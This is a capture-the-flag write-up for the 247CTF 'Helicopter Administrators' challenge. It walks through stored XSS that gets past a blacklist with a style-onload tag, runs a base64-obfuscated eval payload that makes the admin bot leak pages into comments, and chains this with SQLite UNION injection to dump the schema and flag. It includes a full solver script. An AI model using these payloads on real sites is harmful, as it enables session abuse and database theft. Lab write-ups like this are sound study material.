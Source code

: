 # HELICOPTER ADMINISTRATORS [HARD]

## Description

> This applications administrators are very aggressive. They will immediately view any page you report. Can you trick them into disclosing data they shouldn't?

## Source Code

No source code.

## Short Solution Description / Tags

XSS, SQLite SQL Injection

## Explore functionality

There are Admin and User 1, User 2 and User 3 pages.

We cannot access the Admin page.

It has a reporting to admin and a commenting functionalities.
We cannot comment characters that are included in the blacklist, such as `<script`.
Admin will access reporting page and remove comment.

I consider using XSS to make Admin access the Admin page /user/0 and get the response.
`<style` is not included in the blacklist so I input `<style/onload=alert(1)></style>` to comment and reload.

XSS fired.

## XSS Exploitation

Since Admin does not have an internet connection, I consider an XSS payload that Admin sends a request to /user/0 and comments its response to /user/3.

xss.js

```js
const xhr = new XMLHttpRequest();
xhr.open("GET", "/user/0", true);
xhr.send();
xhr.onload = function() {{
  const resp = xhr.response;
  const xhr2 = new XMLHttpRequest();
  xhr2.open("POST","/comment/3",true);
  const params = "comment=" + btoa(resp);
  xhr2.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
  xhr2.send(params);
}};
```

Base64 encode:

```console
$ base64 xss.js -w 0
Y29uc3QgeGhyID0gbmV3IFhNTEh0dHBSZXF1ZXN0KCk7Cnhoci5vcGVuKCJHRVQiLCAiL3VzZXIvMCIsIHRydWUpOwp4aHIuc2VuZCgpOwp4aHIub25sb2FkID0gZnVuY3Rpb24oKSB7ewogIGNvbnN0IHJlc3AgPSB4aHIucmVzcG9uc2U7CiAgY29uc3QgeGhyMiA9IG5ldyBYTUxIdHRwUmVxdWVzdCgpOwogIHhocjIub3BlbigiUE9TVCIsIi9jb21tZW50LzMiLHRydWUpOwogIGNvbnN0IHBhcmFtcyA9ICJjb21tZW50PSIgKyBidG9hKHJlc3ApOwogIHhocjIuc2V0UmVxdWVzdEhlYWRlcigiQ29udGVudC10eXBlIiwgImFwcGxpY2F0aW9uL3gtd3d3LWZvcm0tdXJsZW5jb2RlZCIpOwogIHhocjIuc2VuZChwYXJhbXMpOwp9fTsK
```

Input the following comment:

```html
<style/onload=eval(atob("Y29uc3QgeGhyID0gbmV3IFhNTEh0dHBSZXF1ZXN0KCk7Cnhoci5vcGVuKCJHRVQiLCAiL3VzZXIvMCIsIHRydWUpOwp4aHIuc2VuZCgpOwp4aHIub25sb2FkID0gZnVuY3Rpb24oKSB7ewogIGNvbnN0IHJlc3AgPSB4aHIucmVzcG9uc2U7CiAgY29uc3QgeGhyMiA9IG5ldyBYTUxIdHRwUmVxdWVzdCgpOwogIHhocjIub3BlbigiUE9TVCIsIi9jb21tZW50LzMiLHRydWUpOwogIGNvbnN0IHBhcmFtcyA9ICJjb21tZW50PSIgKyBidG9hKHJlc3ApOwogIHhocjIuc2V0UmVxdWVzdEhlYWRlcigiQ29udGVudC10eXBlIiwgImFwcGxpY2F0aW9uL3gtd3d3LWZvcm0tdXJsZW5jb2RlZCIpOwogIHhocjIuc2VuZChwYXJhbXMpOwp9fTsK"))></style>
```

and report it and access /user/3 page.

![xss_user3.png](img/xss_user3.png)

Decode it; replace single space (` `) to `+` by Find/Replace Recipe and decode by From Base64 Recipe:

![decode_by_cyberchef.png](img/decode_by_cyberchef.png)

I could get the /user/0 response, but The flag was not in the page.
Instead, the post form for /secret_admin_search was found.

I still need to make Admin send various requests so I scripted to automate the operations.

<details><summary>solver.py</summary>

```python
import base64
import random
import re
import string
import sys
import requests

requests.packages.urllib3.disable_warnings()
s = requests.Session()
# s.proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
s.verify = False

BASE_URL = "https://11ee61b5d4e6169f.247ctf.com"


RANDOM_STR = "".join(random.choices(string.ascii_letters, k=10))

# XSS Payload for /user/0 response
XSS_PAYLOAD = f"""\
const xhr = new XMLHttpRequest();
xhr.open("GET", "/user/0", true);
xhr.send();
xhr.onload = function() {{
  const resp = xhr.response;
  const xhr2 = new XMLHttpRequest();
  xhr2.open("POST","/comment/3",true);
  const params = "comment=" + "{RANDOM_STR}" + btoa(resp) + "{RANDOM_STR}";
  xhr2.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
  xhr2.send(params);
}};
"""

SQLI_INPUT = sys.argv[1] if len(sys.argv) == 2 else "a"

XSS_PAYLOAD = f"""\
const xhr = new XMLHttpRequest();
xhr.open("POST", "/secret_admin_search", true);
xhr.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
xhr.send("search=" + "{SQLI_INPUT}");
xhr.onload = function() {{
  const resp = xhr.response;
  const xhr2 = new XMLHttpRequest();
  xhr2.open("POST","/comment/3",true);
  const params = "comment=" + "{RANDOM_STR}" + btoa(resp) + "{RANDOM_STR}";
  xhr2.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
  xhr2.send(params);
}};
"""


def main():
    xss_payload = base64.b64encode(XSS_PAYLOAD.encode()).decode()
    xss_payload = f'<style/onload=eval(atob("{xss_payload}"))></style>'

    # post comment with XSS Payload
    r = s.post(f"{BASE_URL}/comment/1", data={"comment": xss_payload})
    assert r.json()["result"] == "success", "Failed [POST] /comment/1"

    # report to let admin access to /user/1
    r = s.get(f"{BASE_URL}/report/1")
    assert r.json()["result"] == "success", "Failed [GET] /report/1"

    # get response
    r = s.get(f"{BASE_URL}/user/3")
    m = re.findall(rf"{RANDOM_STR}(.*?){RANDOM_STR}", r.text)
    assert m, "Not found admin access to [POST] /comment/3"

    b64_leaked_html = base64.b64decode(m[0].replace(" ", "+").encode()).decode()
    print(b64_leaked_html)


if __name__ == "__main__":
    main()
```

</details>

## SQLi Exploitation

For POST /secret_admin_search XSS Payload:

```js
const xhr = new XMLHttpRequest();
xhr.open("POST", "/secret_admin_search", true);
xhr.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
xhr.send("search=a");
xhr.onload = function() {{
  const resp = xhr.response;
  const xhr2 = new XMLHttpRequest();
  xhr2.open("POST","/comment/3",true);
  const params = "comment=" + "{RANDOM_STR}" + btoa(resp) + "{RANDOM_STR}";
  xhr2.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
  xhr2.send(params);
}};
```

Result:

```console
$ python3 solver.py
{"message":"SQLite error: no such column: a","result":"error"}
```

It seems to have a SQLi vulnerability so tried SQLite SQLi payload.

```console
$ python3 solver.py 'id'
{"message":[[0,"Administrator",100,100,100,"New York, USA"],[1,"Michael Owens",14,22,3,"Sydney, Australia"],[2,"Alice Brock",72,132,28,"Amsterdam, Nederland"],[3,"Sally Alterman",3,1,0,"Berlin, Germany"]],"result":"success"}


$ # UNION SELECT is available
$ python3 solver.py 'id UNION SELECT 1,2,3,4,5,6--'
{"message":[[0,"Administrator",100,100,100,"New York, USA"],[1,2,3,4,5,6],[1,"Michael Owens",14,22,3,"Sydney, Australia"],[2,"Alice Brock",72,132,28,"Amsterdam, Nederland"],[3,"Sally Alterman",3,1,0,"Berlin, Germany"]],"result":"success"}


$ # dumped SQLite verion
$ python3 solver.py 'id UNION SELECT 1,sqlite_version(),3,4,5,6--'
{"message":[[0,"Administrator",100,100,100,"New York, USA"],[1,"3.25.3",3,4,5,6],[1,"Michael Owens",14,22,3,"Sydney, Australia"],[2,"Alice Brock",72,132,28,"Amsterdam, Nederland"],[3,"Sally Alterman",3,1,0,"Berlin, Germany"]],"result":"success"}


$ # dumped the table schema and found flag table
$ python3 solver.py "id UNION SELECT 1,GROUP_CONCAT('---'||sql||'---'),3,4,5,6 FROM sqlite_master--"
{"message":[[0,"Administrator",100,100,100,"New York, USA"],[1,"---CREATE TABLE user (id int primary key, name text, friends int, likes int, shares int, location text)---,---CREATE TABLE comment (id int, comment text)---,---CREATE TABLE flag (flag text)---",3,4,5,6],[1,"Michael Owens",14,22,3,"Sydney, Australia"],[2,"Alice Brock",72,132,28,"Amsterdam, Nederland"],[3,"Sally Alterman",3,1,0,"Berlin, Germany"]],"result":"success"}

$ # got the flag
$ python3 solver.py "id UNION SELECT 1,GROUP_CONCAT('---'||flag||'---'),3,4,5,6 FROM flag--"
{"message":[[0,"Administrator",100,100,100,"New York, USA"],[1,"---247CTF{[REDACTED]}---",3,4,5,6],[1,"Michael Owens",14,22,3,"Sydney, Australia"],[2,"Alice Brock",72,132,28,"Amsterdam, Nederland"],[3,"Sally Alterman",3,1,0,"Berlin, Germany"]],"result":"success"}
```
